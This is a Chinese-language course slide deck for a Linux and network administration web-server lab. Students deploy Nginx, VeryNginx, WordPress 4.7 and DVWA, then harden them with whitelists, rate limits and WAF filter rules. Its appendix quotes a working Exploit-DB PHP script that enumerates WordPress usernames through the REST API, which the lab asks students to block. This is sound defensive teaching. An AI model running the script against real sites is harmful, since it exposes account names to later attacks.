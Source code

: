 ```yaml
---
title: "Linux系统与网络管理"
author: 黄玮
output: revealjs::revealjs_presentation
---
```


# 第五章：Web服务器（实验）

---

## 软件环境建议

* [Nginx](http://nginx.org/)
* [VeryNginx](https://github.com/alexazhou/VeryNginx)
    * 也可以使用其他 `WAF` 或 `API Gateway` 之类的解决方案代替
* [Wordpress](https://wordpress.org/)
    * [WordPress 4.7](https://wordpress.org/wordpress-4.7.zip) | [备用下载地址](https://github.com/WordPress/WordPress/archive/4.7.zip)
* [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)

# 实验检查点

---

## 基本要求

* 在一台主机（虚拟机）上同时配置[Nginx](http://nginx.org/)和[VeryNginx](https://github.com/alexazhou/VeryNginx)
    * VeryNginx作为本次实验的Web App的反向代理服务器和WAF
    * PHP-FPM进程的反向代理配置在nginx服务器上，VeryNginx服务器不直接配置Web站点服务
* 使用[Wordpress](https://wordpress.org/)搭建的站点对外提供访问的地址为： http://wp.sec.cuc.edu.cn 
* 使用[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)搭建的站点对外提供访问的地址为： http://dvwa.sec.cuc.edu.cn

---

## 安全加固要求

* 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**
* [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-2**
* 在不升级Wordpress版本的情况下，通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则，**热**修复[WordPress \< 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)
* 通过配置[VeryNginx](https://github.com/alexazhou/VeryNginx)的Filter规则实现对[Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/)的SQL注入实验在低安全等级条件下进行防护

---

## VeryNginx配置要求

* [VeryNginx](https://github.com/alexazhou/VeryNginx)的Web管理页面仅允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面-3**
* 通过定制[VeryNginx](https://github.com/alexazhou/VeryNginx)的访问控制策略规则实现：
    * 限制DVWA站点的单IP访问速率为每秒请求数 < 50
    * 限制Wordpress站点的单IP访问速率为每秒请求数 < 20
    * 超过访问频率限制的请求直接返回自定义**错误提示信息页面-4**
    * 禁止curl访问

# 附录

---

[WordPress \< 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

```php
#!usr/bin/php
<?php
 
#Author: Mateus a.k.a Dctor
#fb: fb.com/hatbashbr/
#E-mail: dctoralves@protonmail.ch
#Site: https://mateuslino.tk 
header ('Content-type: text/html; charset=UTF-8');
 
 
$url= "http://localhost/";
$payload="wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
    echo "*-----------------------------*\n";
foreach($json as $users){
    echo "[*] ID :  |" .$users['id']     ."|\n";
    echo "[*] Name: |" .$users['name']   ."|\n";
    echo "[*] User :|" .$users['slug']   ."|\n";
    echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}
```



